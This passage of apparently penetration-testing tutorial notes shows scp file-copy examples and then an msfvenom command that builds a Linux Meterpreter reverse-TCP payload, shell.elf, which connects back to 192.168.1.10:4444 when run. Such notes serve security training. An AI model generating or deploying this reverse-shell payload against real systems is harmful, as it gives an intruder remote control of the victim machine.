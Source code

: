 Below we will use the same remote machine IP address of 192.168.1.50 and the same admin user. Note that here we are specifying our 'user' Desktop but you can also use the `.` to copy to your current location.
```bash
# Example of copying a file from a remote system to your local machine.
scp admin@192.168.1.50:/home/admin/Desktop/my_file.txt /home/user/Desktop
```

```bash
# Example of copying to your current location
scp admin@192.168.1.50:/home/admin/Desktop/my_file.txt .
```

### MsfVenom

Create a `shell.elf` exploit

```bash
msfvenom --arch x86 --platform linux --payload linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 --format elf -o /tmp/shell.elf
```

After running this command, the file `shell.elf` contains a program that, when run, will open a Meterpreter connection to your computer's port 4444.
<details><summary>Expand for explanation of flags.</summary></details>
